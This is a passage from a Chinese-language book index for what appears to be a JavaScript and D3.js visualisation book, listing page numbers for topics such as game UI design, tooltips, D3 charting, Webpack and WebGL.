        - addChallengeRow，88–89
        - detectCollisions，82–87
    - 渲染循环，最后修饰，89–90
    - 搭建舞台，69–73
    - 设定游戏基调，69
    - 游戏 UI 设计，90–93
- 工具提示 (Tooltips)，179–180
- 触摸屏输入，79–80
- 交易时间，190–191
- 过渡 (Transitions)，14
- 矩形树图 (Treemap)，41
- Twitter Bootstrap，49
- TypeScript 环境配置，68

### U

- 游戏 UI 设计，90–93
- 更新函数，99
- 利用 D3.js，17–18

### V

- 变量，声明与初始化，133
- Vega，147
- 虚拟现实 (VR)，95
- 可视化，175
    - 注释，191–193
    - Bower 组件，175
    - 十字光标，193–194
    - D3，176–177
    - 部署，181–182
        - 填充空间，184–185
        - 创建简单图表，182–184
        - 使用 D3 和 d3fc，182
    - HTML，175–176
        - 主配置，177
        - 层叠样式表 (CSS)，181
        - 气泡配置，177
        - 可伸缩矢量图形 (SVG)
            - 配置，178
        - 工具提示，179–180
- 集成移动平均线，185
    - 不连续刻度组件，190–191
    - 图例，插入，188–189
    - 交易时间，190–191
    - 成交量集，包含，186–187
- 成交量集，包含，186–187
- VR，参见 Virtual reality
- VX，157–158

### W

- 浏览器，8
- WebGL，36, 95, 96
- Web 链接，使用 D3.js 添加，45–47
- 添加 Webpack 文件，65–68
- 万维网 (World Wide Web)，11

### X

- XSS，参见 Cross-Site Scripting

### Y

- Yahoo 图表，186
